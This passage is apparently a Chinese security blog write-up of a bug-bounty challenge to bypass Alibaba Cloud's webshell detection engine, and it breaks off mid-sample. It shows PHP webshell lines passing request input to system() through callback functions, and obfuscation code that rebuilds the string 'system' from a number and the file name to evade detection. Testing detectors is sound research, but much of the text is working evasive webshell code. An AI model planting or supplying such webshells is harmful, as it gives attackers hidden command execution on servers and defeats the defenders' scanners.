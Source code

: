 # 记一次Webshell检测引擎绕过测试 - 跳跳糖
[背景](#toc_)
-----------

前几天阿里云开启了伏魔赏金计划第二期-WebShell绕过挑战赛，正好没事便报名参加了。这是我第一次参加这种Webshell绕过比赛，因此我对成功绕过的样本做了一些总结，写下了这篇文章。

[基本思路](#toc__1)
---------------

我在上传了一些样本做测试后，我发现引擎(指伏魔Webshell检测引擎)对函数和函数的参数具有一定的敏感性。例如，array_map函数，它的第一个参数是传入一个回调函数，第二个参数是传入一个数组，作为回调函数的参数，测试时出现了以下四种情况。(black指被引擎发现，white指绕过引擎)

`array_map('system', array('whoami')); black
array_map($_GET['a'], array('whoami')); black
array_map('var_dump', array('whoami')); white
array_map('system', array($_GET['a'])); black` 

于是我便有了猜测，引擎会对传入array_map的参数进行检测，在某种情况下，引擎对参数是否可被外部控制的检查力度不同。

然后我又尝试了register\_shutdown\_function，array\_walk，array\_filter等具有回调函数功能的函数进行测试。发现确实存在这一种情况，当传入的回调函数不是system，eval等危险函数，引擎是允许第二个参数可被外部控制的。

这时我找到了我的思路，就是洗白'system'，让'system'不被引擎检查出来。具体方法就是通过各种函数来获取字符串"system"。

[parse_str + 还原字符串](#toc_parse_str)
-----------------------------------

我定义了一个函数fun，传入一个数字，fun可以将数字451232还原为字符串"system"。

`function fun($a){
    $s = ['a','t','s', 'y', 'm', 'e', '/'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}` 

但是这样还不够，我尝试将webshell文件命名为451232.php，并通过substr函数获取到数字451232，依旧失败。

在不断尝试中，我找到了一个函数parse\_str，它可以将字符串解析成多个变量。例如"first=value&arr\[\]=foo+bar&arr\[\]=baz"，在经过parse\_str解析后，会得到一个数组，你可以通过$arr\[first\]访问到字符串"value"。于是我成功得到了一个绕过样本。

`function fun($a){
    $s = ['a','t','s', 'y', 'm', 'e', '/'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}

$f = 'a=d&b[]=foo&b[]=' . fun(intval(substr(__FILE__, -10, 6)));
$arr = array();
